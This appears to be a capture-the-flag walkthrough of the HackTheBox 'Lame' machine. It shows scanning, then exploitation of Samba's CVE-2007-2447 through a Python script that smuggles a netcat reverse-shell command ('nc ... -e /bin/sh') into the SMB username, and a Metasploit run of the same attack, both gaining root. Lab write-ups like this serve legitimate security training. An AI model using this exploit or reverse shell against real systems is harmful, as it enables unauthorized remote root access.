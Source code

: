 ```yaml
---
layout: post
title:  "HackTheBox - Lame"
date:   2022-05-01 17:29:02 +0100
tags: RCE CVE-2007-2447 SMB 
---
```

**Difficulty: <span style="color:green">Easy</span>**  
**Personal Difficulty: <span style="color:green">Easy</span>**   
**Rating: 4.4 / 5**  

This box is arguably one of the easiest on the site. I decided to complete it mainly because I
didn't feel confident with other boxes labelled 'easy' so I wanted to attempt one that was ranked
as easy by users. And it indeed was.  

The key to owning this box was to pay attention to software versions, and keep on the lookout for 
outdated or vulnerable versions specifically. This problem identification is what allowed me to
discover a key RCE vulnerability which I show how to exploit in 2 different ways in this walkthrough.  

### Enumeration  

To start, a ran a Nmap scan for version to identify service versions as well as running default scripts
on the remote system.

```bash
nmap -sC -sV -oN scan.nmap
```

	Nmap scan report for 10.10.10.3
	Host is up (0.019s latency).
	Not shown: 996 filtered tcp ports (no-response)
	PORT    STATE SERVICE     VERSION
	21/tcp  open  ftp         vsftpd 2.3.4
	|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
	| ftp-syst: 
	|   STAT: 
	| FTP server status:
	|      Connected to 10.10.14.21
	|      Logged in as ftp
	|      TYPE: ASCII
	|      No session bandwidth limit
	|      Session timeout in seconds is 300
	|      Control connection is plain text
	|      Data connections will be plain text
	|      vsFTPd 2.3.4 - secure, fast, stable
	|_End of status
	22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
	| ssh-hostkey: 
	|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
	|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
	139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
	445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
	Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

	Host script results:
	| smb-os-discovery: 
	|   OS: Unix (Samba 3.0.20-Debian)
	|   Computer name: lame
	|   NetBIOS computer name: 
	|   Domain name: hackthebox.gr
	|   FQDN: lame.hackthebox.gr
	|_  System time: 2022-04-20T07:11:43-04:00
	|_smb2-time: Protocol negotiation failed (SMB2)
	| smb-security-mode: 
	|   account_used: guest
	|   authentication_level: user
	|   challenge_response: supported
	|_  message_signing: disabled (dangerous, but default)
	|_clock-skew: mean: 2h00m48s, deviation: 2h49m44s, median: 46s

Ports 21, 22, 139 and 445 are open. SMB 3.0.20 was being run on Debian according to the smb-os-discovery script.
Server Message Block (SMB) is a protocol designed for file and resource sharing on a
network. It's mainly for connecting Windows computers, but can be run on Unix systems too. You can find
more about it [here](https://en.wikipedia.org/wiki/Server_Message_Block).  

I considered that SMB wouldn't be as secure on linux (which is not the case after doing some further research) or 
that they may be running a faulty version. However I didn't go into that just yet. Instead, I decided to check out the FTP
server since anonymous login was allowed. To login via FTP anonymously, use the username `anonymous` and leave
the password blank.  

	$ ftp 10.10.10.3
	Connected to 10.10.10.3.
	220 (vsFTPd 2.3.4)
	Name (10.10.10.3:infiltr8): anonymous
	331 Please specify the password.
	Password: 
	230 Login successful.
	Remote system type is UNIX.
	Using binary mode to transfer files.
	ftp> dir
	229 Entering Extended Passive Mode (|||38290|).
	150 Here comes the directory listing.
	226 Directory send OK.
	ftp>  


Looks like there's no files to be share on the server. 
I also connected to the system with SMB but found nothing of interest.
With that, I'll start to investigate the specific SMB version, 3.0.20-Debian.    

A quick google search showed me that this machine was vulnerable to [CVE-2007-2447](https://nvd.nist.gov/vuln/detail/CVE-2007-2447).
A further search brought me to [this Metasploit script](https://www.exploit-db.com/exploits/16320). On inspection,
It seems like adding  "/=\`nohup"  and then a shell command (ending with \`) will allow for shell code execution.
`nohup` (no hangup) is a supplemental command used to keep certain processes or commands running even after logging out or disconnecting
from our shell. I'll exploit this using a script.

### <span style="color:red">Shell as Root</span>

I'll start off by showing the 'best practice' exploit, by writing a python script. All this script will do is attempt to connect to the
vulnerable system with the corrupt username and then the payload.  

```python
#!/usr/bin/python3
from smb.SMBConnection import SMBConnection

payload = "nc 10.10.14.21 4444 -e /bin/sh"
username = "/=`nohup " + payload + "`"

connection = SMBConnection(username, "", "", "")
connection.connect("10.10.10.3",445)
```
  
10.10.14.21 4444 is my local host and port, and 10.10.10.3 445 is the remote host and port. 
This was a simple enough script, but necessary since the payload cannot be injected via smbclient. I set up a netcat listener on another
terminal and got root access; both flags captured.  

```bash
$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.3] 35336
whoami
root
cd root
ls
Desktop
reset_logs.sh
root.txt
vnc.log
```

And user flag:

```bash
cd /home
ls
ftp
makis
service
user
cd makis && ls
user.txt
```
### Metasploit method

This is essentially the same as what I did but with Metasploit.  

Searching for the script:

	msf6 > search usermap script

	Matching Modules
	================

	   #  Name                                Disclosure Date  Rank       Check  Description
	   -  ----                                ---------------  ----       -----  -----------
	   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution


	Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/samba/usermap_script

	msf6 > use 0
	[*] No payload configured, defaulting to cmd/unix/reverse_netcat
	
Setting options:

	msf6 exploit(multi/samba/usermap_script) > show options

	Module options (exploit/multi/samba/usermap_script):

	   Name    Current Setting                                   Required  Description
	   ----    ---------------                                   --------  -----------
	   RHOSTS  10.10.10.3; set RPORT 445, set LHOST 10.10.14.21  yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
	   RPORT   139                                               yes       The target port (TCP)


	Payload options (cmd/unix/reverse_netcat):

	   Name   Current Setting  Required  Description
	   ----   ---------------  --------  -----------
	   LHOST  192.168.50.241   yes       The listen address (an interface may be specified)
	   LPORT  4444             yes       The listen port


	Exploit target:

	   Id  Name
	   --  ----
	   0   Automatic


	msf6 exploit(multi/samba/usermap_script) > set RHOSTS 10.10.10.3
	RHOSTS => 10.10.10.3
	msf6 exploit(multi/samba/usermap_script) > set RPORT 445
	RPORT => 445
	msf6 exploit(multi/samba/usermap_script) > set LHOST 10.10.14.21
	LHOST => 10.10.14.21
	msf6 exploit(multi/samba/usermap_script) > exploit

	[*] Started reverse TCP handler on 10.10.14.21:4444 
	[*] Command shell session 1 opened (10.10.14.21:4444 -> 10.10.10.3:46546 ) at 2022-05-02 15:58:43 +0100

We got shell as root:

```bash
whoami
root
cd root && ls
Desktop
reset_logs.sh
root.txt
vnc.log
```
